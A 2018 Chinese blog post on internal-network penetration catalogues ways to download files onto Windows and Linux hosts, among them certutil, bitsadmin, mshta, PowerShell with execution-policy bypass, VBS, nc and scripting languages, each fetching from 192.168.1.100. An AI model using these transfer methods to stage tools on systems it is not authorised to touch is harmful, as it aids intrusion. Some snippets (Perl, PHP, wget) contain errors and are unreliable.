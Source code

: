 ```yaml
---
title: "下载文件的几种方式"
date: 2018-08-14T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['download']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



Linux 下载文件的方式很多, 一般系统自带的 curl wget 就能搞定, 甚至还可以直接在线 apt yum 安装, 也有很多环境例如 Python Ruby Perl

Windows 就那么几个, 除了 vbs 和 powershell 以外大都是依赖于 microsoft 官方自带的命令行工具.

<!--more-->

## vbs

经典的 `iget.vbs`, 需要一行一行 echo 写.

```
iLocal=LCase(Wscript.Arguments(1))
iRemote=LCase(Wscript.Arguments(0))
Set xPost=createObject("Microsoft.XMLHTTP")
xPost.Open "GET",iRemote,0
xPost.Send()
set sGet=createObject("ADODB.Stream")
sGet.Mode=3
sGet.Type=1
sGet.Open()
sGet.Write xPost.ResponseBody
sGet.SaveToFile iLocal,2
```

执行方式

`cscript //nologo iget.vbs http://192.168.1.100/test.txt C:\test.txt`

也可以把 `Wscript.Arguments` 直接替换成 url.

## telnet

前提是机器要支持 telnet

```
server: nc -lvp 2333 < test.txt
client: telnet example.com -f C:\test.txt
```

## ftp

`1.txt`

```
open 192.168.1.100
username
password
bin
lcd c:/
get test.txt
bye
```

`ftp -s:"C:\1.txt"`

## mshta

hta 执行, 其实还是依赖于 vbs

```
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.1.100/test.txt",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\test.txt", 2);
    Stream.Close();
}
window.close();
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">
</head>
<body>
</body>
</html>
```

执行方式

`mshta test.hta`

## certutil

windows 2003 下的应用程序.

执行方式

```
certutil -urlcache -split -f http://192.168.1.100/test.txt C:\test.txt
certutil -urlcache -split -f http://192.168.1.100/test.txt C:\test.txt delete
```

## bitsadmin

和 certutil 一样, 但只适用于 windows 7 以上的系统.

```
bitsadmin /rawreturn /transfer getfile http://192.168.1.100/test.txt C:\test.txt
```

## powershell

以下内容保存为 `get.ps1`

```
$client = new-object System.Net.WebClient
$client.DownloadFile('http://192.168.1.100/test.txt', 'C:\test.txt')
```

执行方式

```
powershell -ExecutionPolicy Bypass -File .\get.ps1
```

powershell 3.0 提供了  `Invoke-WebRequest` 方法.

需要绝对路径.

```
Invoke-WebRequest -Uri http://192.168.1.100/test.txt -OutFile C:\test.txt
```

或者一句话执行.

```
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.100/test.txt','C:\test.txt')
```

## wget

```
wget http://192.168.1.100/test.txt -P /root/test.txt
```

## ftp

`1.sh`

```
ftp 192.168.1.100
username
password
get test.txt
exit
```

执行方式.

`bash 1.sh`

或者.

`ftpget -u username -P password 192.168.1.100 test.txt`

## nc

```
cat test.txt | nc -l 1234
nc 192.168.1.100 1234 > test.txt
```

## perl

```
#!/usr/bin/perl
use LWP::Simple
getstore("http://192.168.1.100/test.txt "/root/test.txt");
```

## python

```
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://192.168.1.100/test.txt')
localFile = open('/root/test.txt', 'wb+')
localFile.write(u.read())
localFile.close()
```

## ruby

```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("192.168.1.100") { |http|
r = http.get("/test.txt")
open("/root/test.txt", "wb+") { |file|
file.write(r.body)
}
}
```

## php

```
<?php
file_put_contents(file_get_contents('http://192.168.1.100/test.txt'), '/root/test.txt');
?>
```